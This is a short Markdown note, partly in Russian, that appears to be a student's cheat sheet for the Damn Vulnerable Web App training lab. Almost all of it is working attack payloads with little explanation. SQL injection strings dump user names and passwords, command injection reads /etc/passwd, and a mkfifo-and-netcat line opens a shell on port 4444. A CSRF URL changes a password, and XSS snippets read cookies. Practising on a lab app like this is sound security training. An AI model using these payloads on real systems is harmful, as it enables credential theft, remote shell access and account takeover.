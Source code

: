 # Damn Vulnerable Web App

[DWVA](https://computersecuritystudent.com/cgi-bin/CSS/process_request_v3.pl?HID=688b0913be93a4d95daed400990c4745&TYPE=SUB)

## SQL injection

```
%' and 1=0 union select null, concat(user,':',password) from users #
%' or '0'='0
%' and 1=0 union select null, table_name from information_schema.tables #
```

## Command injection:

```
192.168.1.106; cat /etc/passwd
192.168.1.106;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
```

С локальной машины:

```
nc localhost 4444
date
whoami
```

## CSRF

```
http://localhost:8080/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change
```

## XSS

* отраженные (временные). Сайт берет данные из вредоносной строки и подставляет в виде модифицированного URL-ответа
  жертве.
    ```
    <script>alert(document.cookie)</script>
    ```
* хранимые
    ```
    <script>alert("Hello, world")</script>
    <iframe src="http://www.cnn.com"></iframe>
    ```